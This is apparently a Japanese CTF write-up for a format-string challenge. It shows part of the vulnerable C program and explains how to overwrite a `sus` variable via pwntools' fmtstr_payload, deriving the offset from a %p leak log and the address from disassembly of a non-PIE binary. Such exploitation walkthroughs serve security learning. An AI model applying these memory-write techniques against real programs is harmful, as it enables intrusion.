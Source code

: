 ```c
    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
  }
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}
```

`printf(buf);` の行が書式文字列できる。

書式文字列攻撃で `sus` を 0x67616c66 に書き換えるのがゴール。

解き方は↓

[テンプレ: 書式文字列攻撃で（戻り値アドレスなど）任意の領域を書き換える](https://laysakura.notion.site/CTF-pwn-reverse-e0fd38c4a24040679c0e45eed3c8d7ab#76a5dedf5ccb405990a012f0c1de1b6e)

---

[fmtstr_payload(offset, {addr: value})](https://docs.pwntools.com/en/stable/fmtstr.html#pwnlib.fmtstr.fmtstr_payload) に渡す引数を探る。

- offset: 14
    - 下記「実行結果1」で、14番目の %p が `0x70252c70252c7025 (= "%p,%p,%p" のリトルエンディアン)` となっているため
- addr: 0x401273 + 0x2de7 + 0x6
    - checksec 結果が No PIE になっているので固定アドレス。
    - 下記「ディスアセンブル結果」の `*main + 125` のアドレス (rip = 0x0000000000401273) にて、 `sus` の値を取得するときに `rip+0x2de7` としているから。
    - 最後の +0x6 は `"sus = 0x%x\\n"` の出力を見ながらの試行錯誤…
- value: 0x67616c66

```bash
## 実行結果1
% ./vuln
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,
Here's your input: 0x7ffcc929a200,(nil),(nil),0x54,0x7f1f55b4baa0,0x7f1f55ba7658,0x7ffc00000000,0x7f1f55ba72d0,0xffffffff,0x7f1f55b747b0,0x7f1f55ba6ab0,0x1,0x7ffcc929a510,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x252c70252c70252c,0x2c70252c70252c70,0x70252c70252c7025,0x2c70252c,0x7f1f55b82f08,0x7f1f55b72140,0xffffffff,0x7ffcc929a4e0,
sus = 0x21737573
You can do better!
```
